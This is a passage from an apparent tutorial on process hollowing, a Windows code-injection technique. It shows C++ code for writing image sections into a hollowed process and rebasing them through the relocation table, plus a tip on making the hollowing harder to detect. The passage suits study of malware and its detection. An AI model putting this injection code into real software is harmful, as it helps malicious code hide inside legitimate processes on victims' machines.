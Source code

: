 ```cpp
            pSourceImage->Sections[x].SizeOfRawData,
            0
      ))
      {
            printf ("Error writing process memory\r\n");
            return;
      }
}
```

As was mentioned earlier taking this step a bit further by applying the proper memory protection options to the different sections would make the hollowing harder to detect.

Rebasing The Source Image
If the delta calculated in the prior step is not zero the source image must be rebased. To do this, the bootstrap application makes use of the relocation table stored in the .reloc section. The relevant IMAGE_DATA_DIRECTORY, accessed with the IMAGE_DIRECTORY_ENTRY_BASERELOC constant, contains a pointer to the table. 

IMAGE_DATA_DIRECTORY relocData = pSourceHeaders->
      OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
 
The relocation table itself is broken down into a series of variable length blocks, each containing a series of entries for a 4KB page. At the head of each relocation block is the page address along with the block size, followed by the relocation entries. Each relocation entry is a single word; the low 12 bits are the relocation offset, and the high 4 bits are the relocation types. C bit fields can be used to easily access these values.

```cpp
typedef struct BASE_RELOCATION_BLOCK {
      DWORD PageAddress;
      DWORD BlockSize;
} BASE_RELOCATION_BLOCK, *PBASE_RELOCATION_BLOCK;
 
typedef struct BASE_RELOCATION_ENTRY {
      USHORT Offset : 12;
      USHORT Type : 4;
} BASE_RELOCATION_ENTRY, *PBASE_RELOCATION_ENTRY;
```
 
To calculate the number of entries in a block, the size of BASE_RELOCATION_BLOCK is subtracted from BlockSize and the difference is divided by the size of BASE_RELOCATION_ENTRY. The macro below assists in these calculations.

```cpp
#define CountRelocationEntries(dwBlockSize)           \
      (dwBlockSize -                                  \
      sizeof(BASE_RELOCATION_BLOCK)) /                \
      sizeof(BASE_RELOCATION_ENTRY)
 
Putting this together we can iterate through each block and its respective entries, patching the addresses of the image along the way.

DWORD dwRelocAddr = pSourceImage->Sections[x].PointerToRawData;
DWORD dwOffset = 0;
 
IMAGE_DATA_DIRECTORY relocData = pSourceHeaders->
      OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
 
while (dwOffset < relocData.Size)
{
      PBASE_RELOCATION_BLOCK pBlockheader =
            (PBASE_RELOCATION_BLOCK)&pBuffer[dwRelocAddr + dwOffset];
 
      dwOffset += sizeof(BASE_RELOCATION_BLOCK);
 
      DWORD dwEntryCount = CountRelocationEntries(pBlockheader->BlockSize);
```